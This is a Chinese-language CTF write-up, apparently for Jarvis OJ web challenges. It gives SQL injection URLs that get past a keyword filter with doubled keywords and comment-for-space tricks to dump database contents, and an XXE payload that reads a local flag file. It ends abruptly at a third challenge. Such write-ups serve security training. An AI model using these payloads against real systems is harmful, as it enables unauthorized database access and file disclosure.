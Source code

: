 发现大部分词被过滤

后网上查看wirte up 发现可以用

`/*1*/ 代替空格 双写 uniunionon等` 绕开过滤

`http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=-1/*1*/uniunionon/*1*/seleselectct/*1*/1,2,database()`   查到数据库test



`http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=-1/*1*/uniunionon/*1*/seleselectct/*1*/1,2,table_name/*1*/frfromom/*1*/information_schema.tables/*1*/where/*1*/table_schema=0x74657374`                                          查到表名 content



`http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=-1/*1*/uniunionon/*1*/seleselectct/*1*/1,2,group_concat(column_name)/*1*/frfromom/*1*/information_schema.columns/*1*/where/*1*/table_name=0x636f6e74656e74`       查到字段名  id,context,title 



`http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=-1/*1*/uniunionon/*1*/seleselectct/*1*/1,2,group_concat(id,context,title)/*1*/frfromom/*1*/content`                              查到flag  `1 PCTF{Fin4lly_U_got_i7_C0ngRatulation5} hi666 `





### API调用 

请设法获得目标机器/home/ctf/flag.txt中的flag值。

题目入口：<http://web.jarvisoj.com:9882/> 



打开后右键查看源码 发现了xml 于是猜是一个XXE漏洞

抓包

```
<?xml version="1.0"?>
<!DOCTYPE a[
  	<!ENTITY xxe SYSTEM "file:///home/ctf/flag.txt">
]>
<task><value>&xxe;</value></task>
```

按照正常的格式填好发过去 一开始返回400错误

后来发现需要把 `Content-Type: application/xml` 改一下

直接获取flag： CTF{XxE_15_n0T_S7range_Enough} 



### babyphp

<http://web.jarvisoj.com:32798/> 

点进去发现存在提示 git
